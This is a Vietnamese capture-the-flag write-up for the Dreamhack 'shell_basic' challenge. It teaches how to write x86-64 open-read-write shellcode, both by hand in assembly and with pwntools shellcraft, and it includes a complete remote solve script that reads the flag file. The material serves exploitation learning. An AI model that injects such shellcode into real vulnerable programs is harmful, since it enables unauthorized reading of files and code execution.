


# 0x00 Tổng quan 
- Files được cho: `shell_basic`, `shell_basic.c`
- Không như các bài toán khác, đối với bài này, chúng ta cần phải viết shellcode để đọc flag tại `/home/shell_basic/flag_name_is_loooooong`

# 0x01 Shellcode? 
Shellcode là đoạn mã assembly, được chèn vào payload để thực hiện các mục đích khác nhau như lấy shell, đọc nội dung file, ... Với bài toán ở trên, mục đích chính của shellcode là đọc nội dung của file. Với loại shellcode này, mình sẽ gọi tắt là **orw shellcode (open-read-write shellcode)**.

Để viết được **orw shellcode**, chúng ta cần sử dụng các syscall của hệ thống. Dưới đây là các nội dung của các syscall cần thiết. 

| syscall   | rax       | arg0(rdi)     | arg1 (rsi)    | arg2 (rdx)    | 
| --------- | ------    |-----------    | -----------   | -----------   | 
| read      | 0x00      |unsigned int fd| char *buf     |size_t count   |
| write     | 0x01      |unsigned int fd|const char *buf|size_t count   |
| open      | 0x02      |const char *filename|int flags |umode_t mode    |

Chúng ta cùng đi phân tích cụ thể từng syscall để xem syscall đó yêu cầu những gì, nó thực hiện công việc gì. 

## 1. int fd = open("/tmp/flag", O_RDONLY, NULL)

Giả sử, đường dẫn của file cần đọc là `tmp/flag`. 3 tham số của syscall này là:
- arg0: `/tmp/flag`. Chúng ta cần đưa chuỗi này vào stack. Để làm được điều đó, ta sẽ convert chuỗi này qua mã hex rồi push vào stack. Do stack là cấu trúc (LIFO) và chỉ nhận 8 byte một lần push. Vì vậy ta sẽ tách **"/tmp/flag" = "/tmp/fla" + "g"**
    - "/tmp/fla" = 0x616c662f706d742f
    - "g" = 0x67
- arg1: File access mode 
    - O_RDONLY (Open read-only) -> `flag = 0`
    - O_WRONLY (Open write-only) -> `flag = 1`
    - O_RDWR (Open read/write) -> `flag = 2`
- arg2: Khi đọc file, chúng ta không sử dụng tham số này. Vậy `arg2 = 0`
- rax: Để gọi syscall open, `rax = 0x02`

Cuối cùng, ta sẽ viết đoạn mã assembly để thực hiện các công việc ở trên 
```asm
push 0x67                       ; "g"
mov rax, 0x616c662f706d742f     ; "/tmp/fla"
push rax            
mov rdi, rsp                    ; rdi = "/tmp/flag"
xor rsi, rsi                    ; rsi = 0 ; O_RDONLY
xor rdx, rdx                    ; rdx = 0
mov rax, 0x02                   ; rax = 2 ; syscall_open
syscall                         ; open("/tmp/flag", O_RDONLY, NULL)
```

## 2. read(fd, buf, 0x30) 

Giả sử, chúng ta muốn đọc 0x30 bytes từ tệp dữ liệu. 3 tham số của syscall này đó là: 
- arg0: `fd`. Khi mở xong file, giá trị của `fd` được lưu trong thanh ghi `rax`. Vì vậy `rdi = rax`.
- arg1: `rsi` sẽ trỏ tới địa chỉ, nơi dữ liệu được đọc từ file lưu trữ. Do chúng ta sẽ đọc 0x30 bytes, `rsi = rsp - 0x30`.
- arg2: `rdx` sẽ bằng 0x30, số bytes dữ liệu được đọc từ tệp. 
- rax: Để gọi syscall này, `rax = 0x00`

Đoạn mã assembly thực hiện các công việc trên là
```asm
mov rdi, rax    ; rdi = fd
mov rsi, rsp    ;  
sub rsi, 0x30   ; rsi = rsp - 0x30 ; buf 
mov rdx, 0x30   ; rdx = 0x30
xor rax, rax    ; rax = 0
syscall         ; read(fd, buf, 0x30)
```

## 3. write(1, buf, 0x30)

Khi gọi syscall write, `rsi` và `rdx` không thay đổi.
- arg0: `fd`. Do đầu ra sẽ ở dạng xuất chuẩn, `rdi = 0x1`
- arg1: giữ nguyên như syscall read
- arg2: giữ nguyên như syscall read
- rax: Để gọi syscall, `rax = 0x01` 

Đoạn mã assembly thực hiên các công việc trên là
```asm
mov rdi, 0x01   ; rdi = 1 ; fd = stdout
mov rax, 0x01   ; rax = 1 ; syscall_write
syscall         ; write(fd, buf, 0x30)
```

# 0x02 Framework Pwntools


Để thực hiện nhanh chóng các ý tưởng của chúng ta ở trên, framework pwntools có `shellcraft` để làm điều đó. 

```python
shellcode =  shellcraft.open('/tmp/flag')
shellcode += shellcraft.read('rax', 'rsp', 0x30)
shellcode += shellcraft.write(0x01, 'rsp', 0x30)
```

# 0x03 Shell_Basic

Với toàn bộ kiến thức ở trên, chúng ta có thể dễ dàng giải quyết bài toán này bằng 2 cách viết shellcode 

```python
#!/usr/bin/env python3

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 20634
context.arch = 'amd64'
context.binary = elf = ELF('./shell_basic', checksec = False)
# p = process(elf.path)
p = remote(HOST, PORT)

path = '/home/shell_basic/flag_name_is_loooooong' 

shellcode1 = asm(
'''
push 0
mov rax, 0x676e6f6f6f6f6f6f
push rax
mov rax, 0x6c5f73695f656d61
push rax
mov rax, 0x6e5f67616c662f63
push rax
mov rax, 0x697361625f6c6c65
push rax   
mov rax, 0x68732f656d6f682f
push rax    
mov rdi, rsp
xor rsi, rsi 
xor rdx, rdx 
mov rax, 2
syscall 
mov rdi, rax 
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0
syscall 
mov rdi, 1
mov rax, 1 
syscall 
''')

shellcode2 = shellcraft.open(path)
shellcode2 += shellcraft.read('rax', 'rsp', 0x30)
shellcode2 += shellcraft.write(0x01, 'rsp', 0x30) 

p.sendline(asm(shellcode2))

p.interactive()
```

# 0x04 Reference 
- https://learn.dreamhack.io/50 
- https://codebrowser.dev/glibc/glibc/bits/fcntl.h.html#24